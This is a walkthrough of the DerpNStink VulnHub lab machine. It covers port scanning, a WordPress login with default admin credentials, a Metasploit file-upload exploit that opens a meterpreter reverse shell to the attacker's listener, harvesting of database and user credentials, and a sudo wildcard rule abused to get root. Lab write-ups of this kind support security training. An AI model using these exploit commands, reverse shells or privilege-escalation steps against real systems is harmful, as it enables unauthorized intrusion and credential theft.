 DirtNStink

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Content Discovery
[+] WPscan - default admin credentials 
[+] Wordpress Plugin Exploit -  Slideshow
[+] Wireshark Pcap analysis
[+] Privilege Escalation Abusing SUDO rights /binaries/derpy*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scanning Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
map scan report for 192.168.56.101
Host is up (0.00083s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 12:4e:f8:6e:7b:6c:c6:d8:7c:d8:29:77:d1:0b:eb:72 (DSA)
|   2048 72:c5:1c:5f:81:7b:dd:1a:fb:2e:59:67:fe:a6:91:2f (RSA)
|   256 06:77:0f:4b:96:0a:3a:2c:3b:f0:8c:2b:57:b5:97:bc (ECDSA)
|_  256 28:e8:ed:7c:60:7f:19:6c:e3:24:79:31:ca:ab:5d:2d (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/php/ /temporary/
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: DeRPnStiNK
MAC Address: 08:00:27:66:46:4B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Analysing the source page of the http://192.168.56.101 we get the first flag:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# curl http://192.168.56.101
... snip ...
<--flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166) -->

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Adding the host in /etc/hosts

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kal1
192.168.56.101	derpnstink.local

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Dirb identified a /weblog that is hosted with wordpress

![Alt Tag]()
Tying credentials admin:admin we are able to login.

After loggin in we identify a Slideshow plugin. 
Searching for an exploit on this wordpress plugin.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msf5 > search wp_slide

Matching Modules
================

   Name                                            Disclosure Date  Rank       Check  Description
   ----                                            ---------------  ----       -----  -----------
   exploit/unix/webapp/wp_slideshowgallery_upload  2014-08-28       excellent  Yes    Wordpress SlideShow Gallery Authenticated File Upload


msf5 > use exploit/unix/webapp/wp_slideshowgallery_upload
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > set wp_PASSWORD admin
wp_PASSWORD => admin
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > set wp_user admin
wp_user => admin
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > set rhosts 192.168.56.101
rhosts => 192.168.56.101
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > set targeturi /weblog/
target => /weblog/
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > run

[*] Started reverse TCP handler on 192.168.56.102:4444 
[*] Trying to login as admin
[*] Trying to upload payload
[*] Uploading payload
[*] Calling uploaded file bdelqqbz.php
[*] Sending stage (38247 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.102:4444 -> 192.168.56.101:44256) at 2019-10-19 21:08:37 -0400
[+] Deleted bdelqqbz.php

meterpreter > 
meterpreter > shell
Process 4508 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash");'
</html/weblog/wp-content/uploads/slideshow-gallery$ 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Getting database credentials:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@DeRPnStiNK:/var/www/html/weblog$ cat wp-config.php


/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');

/** MySQL hostname */
define('DB_HOST', 'localhost');

...snip...
/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
...snip ...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Logging in into php admin we get the following usernames and passwords:

![Alt Tag]()
Cracking the password hash we get the following credentials :
![Alt Tag]()

We try to login with username : stinky and password: wedgie57


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@DeRPnStiNK:/var/www/html$ su stinky
su stinky
Password: wedgie57

stinky@DeRPnStiNK:/var/www/html$ id
id
uid=1001(stinky) gid=1001(stinky) groups=1001(stinky)
stinky@DeRPnStiNK:~/Desktop$ cat flag.txt
cat flag.txt
flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Pcap file

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
stinky@DeRPnStiNK:~/Documents$ ls -al
ls -al
total 4300
drwxr-xr-x  2 stinky stinky    4096 Nov 13  2017 .
drwx------ 12 stinky stinky    4096 Oct 20 00:37 ..
-rw-r--r--  1 root   root   4391468 Nov 13  2017 derpissues.pcap

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Copy the derpissue.pcap to /ftp folder.
Connect to FTP to download the pcap file

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
setrus@host:~$ ftp
ftp> open 192.168.56.101
Connected to 192.168.56.101.
220 (vsFTPd 3.0.2)
Name (192.168.56.101:setrus): stinky
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd files
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001      4391468 Oct 20 04:45 derpissues.pcap
drwxr-xr-x    2 1001     1001         4096 Nov 12  2017 network-logs
drwxr-xr-x    3 1001     1001         4096 Nov 12  2017 ssh
-rwxr-xr-x    1 0        0              17 Nov 12  2017 test.txt
drwxr-xr-x    2 0        0            4096 Nov 12  2017 tmp
226 Directory send OK.
ftp> get derpissues.pcap
local: derpissues.pcap remote: derpissues.pcap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for derpissues.pcap (4391468 bytes).
226 Transfer complete.
4391468 bytes received in 0.21 secs (19.5075 MB/s)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Analysing the file with wireshark we found the password for user mrderp.
![Alt Tag]()

Connecting as mrderp : derpderpderpderpderpderpderp


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/dirkNStink# ssh mrderp@192.168.56.101
Ubuntu 14.04.5 LTS


                       ,~~~~~~~~~~~~~..
                       '  Derrrrrp  N  `
        ,~~~~~~,       |    Stink      | 
       / ,      \      ',  ________ _,"
      /,~|_______\.      \/
     /~ (__________)   
    (*)  ; (^)(^)':
        =;  ____  ;
          ; """"  ;=
   {"}_   ' '""' ' _{"}
   \__/     >  <   \__/
      \    ,"   ",  /
       \  "       /"
          "      "=
           >     <
          ="     "-
          -`.   ,'
                -
            `--'

mrderp@192.168.56.101's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

331 packages can be updated.
231 updates are security updates.

Last login: Mon Nov 13 01:03:13 2017 from 192.168.1.129
mrderp@DeRPnStiNK:~$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
mrderp@DeRPnStiNK:~$ sudo -l
[sudo] password for mrderp: 
Matching Defaults entries for mrderp on DeRPnStiNK:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
mrderp@DeRPnStiNK:~$ 
mrderp@DeRPnStiNK:~$ mkdir binaries
mrderp@DeRPnStiNK:~$ cd binaries/
mrderp@DeRPnStiNK:~/binaries$ echo '/bin/bash' > derpy.sh
mrderp@DeRPnStiNK:~/binaries$ chmod +x derpy.sh
mrderp@DeRPnStiNK:~/binaries$ sudo ./derpy.sh 
root@DeRPnStiNK:~/binaries# id
uid=0(root) gid=0(root) groups=0(root)
root@DeRPnStiNK:~/binaries# 

root@DeRPnStiNK:/root/Desktop# cat flag.txt
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

Congrats on rooting my first VulnOS!

Hit me up on twitter and let me know your thoughts!

@securekomodo

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

